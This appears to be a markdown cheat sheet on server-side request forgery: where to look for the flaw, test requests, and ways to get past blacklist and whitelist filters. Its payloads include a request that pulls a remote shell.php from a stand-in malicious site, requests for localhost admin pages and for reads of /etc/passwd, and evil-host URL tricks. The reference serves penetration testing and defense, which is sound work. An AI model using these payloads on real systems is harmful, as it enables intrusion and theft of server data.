 ## SSRF Attacks 
- SSRF attacks against the server itself
- SSRF attacks against other back-end systems



## Exploiting SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


## When hunting for SSRF vulnerabilities, we should `look for` OR `fuzz`:
- Parts of HTTP requests, including URLs
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


## Testing if app vulnerable to SSRF
The most common test is for local and remote file inclusion

- Load the Contents of a File (try RCE)
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

- Access a Restricted Page
```
GET https://example.com/page?page=http://localhost/admin

Or:

GET https://example.com/page?page=http://127.0.0.1/admin

```
### methdology 
- try to include local or remote files (http,file,ftp)
- fuzz ports and check functionalities (ex:get dir listing)
- try to get info about the server (ex:/proc/self/environ , /etc/passwd)
- do not forget to url encode if going through more than one app (ex:trible url encode)



## Bypass

### SSRF with blacklist-based input filters

- Using an alternative IP representation for 127.0.0.1
```
127.1.
017700000001 (octal)
0x7f000001 (hexadecimal)
2130706433 (integer)
::ffff:7f00:1  , 0:0:0:0:0:ffff:7f00:0001 , 0000:0000:0000:0000:0000:ffff:7f00:0001(IPv6)

```
- Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.
- Providing a URL that you control, which subsequently redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL.
- Nip.io allows simple wildcard DNS for any IP address
```
127.0.0.1.nip.io
127.0.0.1.nip.io
0x7f000001.nip.io (hexadecimal IP notation)
Something.google.com.127.0.0.1.nip.io
```


### SSRF with whitelist-based input filters

- You can embed credentials in a URL before the hostname, using the @ character. For example:
```bash
https://expected-host:fakepassword@evil-host
```
- You can use the # character to indicate a URL fragment. For example:
```bash
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```bash
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
```text
Note
that you can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
```
- You can use combinations of these techniques together.


